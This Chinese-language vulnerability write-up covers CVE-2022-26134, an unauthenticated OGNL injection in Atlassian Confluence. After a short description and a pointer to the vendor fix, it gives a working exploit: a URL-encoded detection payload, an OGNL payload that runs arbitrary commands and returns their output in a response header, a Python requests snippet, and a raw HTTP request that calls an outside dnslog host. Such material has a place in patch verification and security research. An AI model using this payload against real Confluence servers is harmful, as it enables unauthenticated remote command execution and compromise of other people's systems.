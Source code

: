 ### 一 漏洞描述
Atlassian Confluence是一个专业的企业知识管理与协同软件，主要用于公司内员工创建知识库并建立知识管理流程，也可以用于构建企业wiki。

2022 年 6 月 2 日，Atlassian 发布了针对 CVE-2022-26134 的安全公告，这是 Confluence Server 和 Confluence Data Center 中的一个严重的未经身份验证的远程代码执行漏洞。该漏洞在 6 月 2 日发布时未修补。截至 6 月 3 日，补丁和临时解决方法均可用。

在受影响的 Confluence Server 和 Data Center 版本中，存在一个 OGNL 注入漏洞，该漏洞允许未经身份验证的攻击者在 Confluence Server 或 Data Center 实例上执行任意代码。

### 二 漏洞利用
#### 验证  
`/%24%7B%40com.atlassian.confluence.util.GeneralUtil%40setCookie%28%22isvulnerable%22%2C%22vulnerable%22%29%7D/`

#### 利用  
payload = `${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("{}").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}`
```
payload = "%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22{}%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D".format(command)
response = requests.get("{}/{}/".format(host, payload), verify=False, allow_redirects=False)
```

#### 请求
![img.png](img.png)
```
GET /%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22ping%20222.zv1hii.dnslog.cn%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
Host: 10.132.78.32:8090
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh;q=0.8,zh-TW;q=0.7,zh-CN;q=0.6
Cookie: JSESSIONID=ACC0255E845E7138A00D4C1365092A16
Connection: close


```

### 三 漏洞修复
根据 https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html 升级至相关安全版本

> 参考链接  
> https://github.com/Nwqda/CVE-2022-26134/blob/master/cve-2022-26134.py
